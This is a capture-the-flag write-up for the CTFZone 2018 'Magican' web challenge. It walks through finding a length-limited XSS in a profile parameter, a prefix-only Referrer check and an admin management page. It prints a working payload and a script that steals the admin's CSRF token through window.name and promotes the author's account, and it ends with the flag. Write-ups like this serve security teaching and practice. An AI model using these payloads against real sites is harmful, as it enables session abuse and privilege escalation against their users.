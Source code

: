 # Magican &ndash; write-up by @terjanq
*CTFZone 2018 Quals, 7/24/18*

## Description
We are provided with a simple website  
![website]

and the only functionalities are `login/register`, `edit profile`, `support`. 

`Support` section allows us to send two types of messages to the admin: `Problems with Profile` and `Get premium account`. Each of them contains two fields: `Link to profile` and `Message`.  
![support]

`Edit profile` section allows us to edit our name.  
![profile]

## Quick research
- When we manually edit the `Link to profile` field to `http://ourwebsite` in the first option of `Support` section the admin will visit it and thanks to the `User-Agent header` we could see that the admin is using `Firefox 61.0`.  

- `HTTP response header` looks like:
```
< Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
< Content-Type: text/html; charset=UTF-8
< Referrer-Policy: origin
< Server: Apache/2.4.25 (Debian)
< X-Content-Type-Options: nosniff
< X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
< X-Powered-By: PHP/7.0.30
< X-XSS-Protection: 1; mode=block
```
and means that
    - we cannot include any external `scripts` and `styles`
    - we cannot embed the website into `iframe` on external website (however Google will allow it due to the *incorrect header*)
    - any attempt of `reflected XSS` should be blocked by the browser
    - we can send information out as the `image` or `xhr requests`
     
- Parameter `uuid` in the request `http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=<uuid>` is vulnerable to the injections ( XSS/CSS ) and is limited to `36 characters`. The lack of `XSS Auditor` in Firefox allows us to inject `XSS` in there.  
    ![xss]

- With the help of dirbuster, I found the `manage.php` page which is the admin's tool for changing `user status` to `premium`  
![manage]

- `profile.php` and `manage.php` are protected by the `hidden token`, and tokens are associated with the current session

- When we try to send `POST` data to the `profile.php` or `manage.php` with `Referrer` different than `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one` the error `Wrong Referrer` will appear. However, I found out that it only has to start with it and therefore the referrer `web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one.example.com` will be accepted!.

- When we try to change our status to `premium`, `Permission Denied!` appears.

## Solution

Based on the findings it was obvious that our goal is to do a `CSRF` (Cross-Origin Request Forgery) attack, in order to change our status to `premium`, and the only missing piece is the `token`. It was a very tough task to steal and then send the token in `36 bytes`! With the help of [@gros] from my team we managed to create a payload `"><svg/onload=$.globalEval(name)` 32 bytes long where `name` is just a short form of `window.name` property. We assigned it by sending the admin to our webpage where we triggered `window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', <long payload>)` setting `window.name` to `<long payload>`.  
    The complete [forms.html] looked like:  
```HTML
<script>

      window.open('http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><svg/onload=$.globalEval(name)', `

        $.get("manage.php", function(data){    
                var x = /name="token" value="([^"]+)/.exec(data);
                $.post("manage.php", {user_uuid: "6c1e8255-ceed-428a-8b48-74e13db8142d", token: x[1], status: "premium"}); 
         });

   `);

</script>
```
And after sending the admin to that page, on my profile I could find the flag: **ctfzone{0190af5705a38115cd6dee6e7d79e317}**





[website]: <./images/website.png>
[xss]: <./images/xss.png>
[profile]: <./images/profile.png>
[support]: <./images/support.png>
[manage]: <./images/manage.png>
[forms.html]: <./forms.html>
[@gros]: <#>